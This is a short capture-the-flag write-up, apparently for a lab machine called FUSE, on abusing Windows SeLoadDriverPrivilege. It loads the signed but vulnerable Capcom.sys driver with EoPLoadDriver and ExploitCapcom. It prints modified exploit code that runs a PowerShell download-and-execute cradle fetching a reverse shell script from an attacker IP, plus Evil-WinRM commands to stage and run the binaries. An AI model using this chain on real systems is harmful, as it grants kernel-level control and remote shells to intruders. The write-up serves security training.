


# 20 - PrivEsc

# SeLoadDriverPrivilege is enabled.




SeLoadDriverPrivilege is a dangerous privilege because drivers execute in kernel mode.  See [this](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) article in order to understand why it is a dangerous privilege. <br /><br />Basically, we need the following tools:


* [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) is a vulnerable driver but signed by microsoft.
* [EoPLoadDriver ](https://github.com/TarlogicSecurity/EoPLoadDriver) prepares the environment to load the driver. 
* [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) will exploit the vulnerability in Capcom.sys.

I compiled the repositories in Visual Studio 2019.  By default, ExploitCapcom executes cmd.exe on a new window, this has to go because we don't have gui access.

# ExploitCapcom.cpp
```c++
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    TCHAR Commandargv[] = TEXT("cmd.exe /c powershell \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/rev.ps1')\"");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, Commandargv, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

We want to modify this function to download Invoke-PowerShellTcp.ps1 and execute it.


# Copy the binaries to FUSE
```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/Capcom.sys -outfile Capcom.sys
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/EopLoadDriver.exe -outfile EoPLoadDriver.exe
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/ExploitCapcom.exe -outfile ExploitCapcom.exe
```

# Load the driver and execute
```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\EoPLoaderDriver.exe System\\CurrentControlSet\\MyService C:\\Users\\svc-print\\Documents\\Driver.sys
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe
```


